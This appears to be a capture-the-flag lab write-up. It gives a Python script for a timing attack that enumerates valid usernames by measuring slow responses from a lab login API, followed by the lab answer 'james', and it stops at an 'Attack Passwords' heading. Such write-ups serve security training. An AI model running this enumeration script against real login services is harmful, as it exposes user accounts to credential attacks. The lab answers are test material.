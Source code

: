 Try to write a script to perform a timing attack.
```
import requests
import time

#doLogin(user)


def doLogin(user): 
	startTime = time.time() * 1000 
	creds = {"username": user, "password": "invalidPassword!"}

	response = requests.post("http://10.10.141.166:80/api/user/login", json=creds)
	endTime = time.time() * 1000
	time_diff = endTime - startTime

	if time_diff > 200: 
		return user, time_diff  
	else: 
		return "None", "None"
		

if __name__ == "__main__": 
	
	with open("names.txt", 'r') as n_file: 
		lines = n_file.readlines()

	user, time_diff = doLogin('jordan')
	with open("results.txt", "w") as r_file: 
		for line_num, line in enumerate(lines):
			# if line_num == 3: 
			# 	exit() 
			line_clean = (line.replace("\n", ""))
			user, time_diff = doLogin(line_clean)

			if user == "None": 
				continue
			else: 
				result = "User: " + user + ", Time: " + str(time_diff) 
				r_file.writelines(result + "\n")

	n_file.close()
	r_file.close()
```

How many usernames from the list are valid?
```
1
```

What are/is the valid username(s)?
```
james
```
#### Attack Passwords
